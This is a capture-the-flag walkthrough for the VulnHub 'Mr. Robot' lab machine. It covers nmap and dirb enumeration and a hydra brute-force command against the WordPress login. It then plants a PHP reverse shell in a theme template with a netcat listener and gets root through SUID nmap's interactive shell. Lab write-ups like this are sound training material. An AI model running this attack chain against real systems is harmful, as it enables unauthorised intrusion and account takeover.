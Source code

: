 # Mr.Robot Writeup

**Download [Mr.robot Machine](https://www.vulnhub.com/entry/mr-robot-1,151/)**

# Tools :
- nmap
- dirb
- hydra

## Find IP address
to find the ip address of the machine , I ran netdiscover

![alt text](https://i.imgur.com/FKeorEl.png)
`netdiscover -r 192.168.1.0/24`
IP : 192.168.53.132

## Port scan
let's run nmap to know which ports are open

![alt text](https://i.imgur.com/R2RRz6K.png)

`nmap -A 192.168.53.132`


okay now we have port 80 and 443

## website enumeration

I will run dirb in the background while browsing the website

I will run dirb in the background while browsing the website

![alt text](https://i.imgur.com/alK7sxV.png)

so I have tried this commands and nothing but videos



I think we should look at robots.txt file

![alt text](https://i.imgur.com/8Bu8b02.png)

ok ! we found the first key and another file called fsocity.dic

![alt text](https://i.imgur.com/10KCoAp.png)

after downloading the fsocity file I found it's a wordlist
let's find out its word count

![alt text](https://i.imgur.com/aVEQPG5.png)

`wc -w fsocity.dic`


858160 word ! maybe there're duplicates ?

I will sort them and remove the duplicates to find out

![alt text](https://i.imgur.com/0oJa0xI.png)

`sort fsocity.dic | uniq > wordlist.txt`


Now we are ready to bruteforce !, but first let's look at dirb result.


![alt text](https://i.imgur.com/wJZrAKT.png)

`dirb  https://192.168.53.132`

we have a wordpress running !
let's look at the login page

![alt text](https://i.imgur.com/mNozAlO.png)

after trying some credentials , I noticed it tells us whether the username is valid or not.
now I guess it's easy to bruteforce the username using hydra
but I thought about trying "elliot" the main character in the mr.robot tv show , and it's right !

![alt text](https://i.imgur.com/vYjrfck.png)

then we can bruteforce the password using hydra

![](https://i.imgur.com/fJrXxgp.png)

`hydra 192.168.53.132 -l elliot -P wordlist.txt http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=log In&testcookie=1:S=Location'`

okay we got the password **ER28-0652**

![](https://i.imgur.com/4Old6lH.png)

it's time to upload a reverse shell
I will go for php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)

**don't forget to change the ip and port in the script to your ip and the port you will listen to**

I chose to upload it in the 404.php template from appearance -> editor -> 404 template

![](https://i.imgur.com/KnlFdWD.png)

now we need to start our listener and then visit the 404.php page

![](https://i.imgur.com/a9Z0mMH.png)

`nc -lvp 1234`

now we are deamon
and I found the second flag at home/robot

![](https://i.imgur.com/Bqq02lX.png)

and there's a md5 hash !
I will use [md5 decrypt online tool](https://hashes.com/en/decrypt/hash)

![](https://i.imgur.com/8iwWeDD.png)

let's login as robot

![](https://i.imgur.com/1gQUW0q.png)

## Privilege escalation

let's find the setuid binaries

![](https://i.imgur.com/nBEqa4N.png)

`find / -user root -perm -4000 2>/dev/null`

we can run nmap !
let's find out its version

![](https://i.imgur.com/AhqMtlI.png)

`nmap --version`

with quick search we can find that this version has an interactive mode

![](https://i.imgur.com/3no9GBI.png)

`nmap --interactive`

we can spawn a shell as root !

![](https://i.imgur.com/FxLOqBX.png)

`!sh` to open a shell

finally the last flag!

![](https://i.imgur.com/uRKj91Q.png)




